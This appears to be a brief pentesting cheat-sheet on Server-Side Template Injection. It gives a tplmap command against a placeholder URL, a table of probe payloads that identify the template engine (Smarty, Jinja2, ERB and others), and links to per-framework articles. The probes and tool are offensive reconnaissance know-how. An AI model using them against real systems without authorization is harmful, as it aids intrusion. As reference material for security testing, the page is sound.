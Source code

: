 ```yaml
---
title: SSTI (Server-Side Template Injection)
description: 
tags:
    - Web
ref:
date: 2024-04-13
draft: false
---
```


## Automation

[Tplmap](https://github.com/epinna/tplmap) is a program for Server-Side Template Injection and Code Injection.

```sh
./tplmap.py -u http://vulnerable.com/?name=test
```

<br />

## Identify the Template Engine/Framework/Language

|Payload|Template Engine/Framework/Language|
|:---|:---|
|`a{*comment*}b`|Smarty|
|`#{ 2*3 }`|Pug, Spring|
|`*{ 2*3 }`|Spring|
|`${"z".join("ab")}`|Mako, ???|
|`{{ '7'*7 }}`|Angular, Django, Flask, Go, Jinja2, Tornado, Twig, ???|
|`{{:2*3}}`|JsRender|
|`{% debug %}`|Django|
|`<%= 7*7 %>`|ERB (Embedded Ruby)|

<br />

## SSTI for Each Framework

Please see each article for details about SSTI.

- [Angular](/exploit/web/framework/javascript/angular-pentesting/)
- [Django](/exploit/web/framework/python/django-pentesting/)
- [Flask/Jinja2](/exploit/web/framework/python/flask-jinja2-pentesting/)
- [ERB (Embedded Ruby)](/exploit/web/erb-ssti/)
- [Go](/exploit/web/go-ssti/)
- [JsRender](/exploit/web/template-engine/jsrender-template-injection/)
- [Pug](/exploit/web/template-engine/pug-pentesting/)
- [Spring](/exploit/web/framework/java/spring-pentesting/)
- [Tornado](/exploit/web/framework/python/tornado-pentesting/)
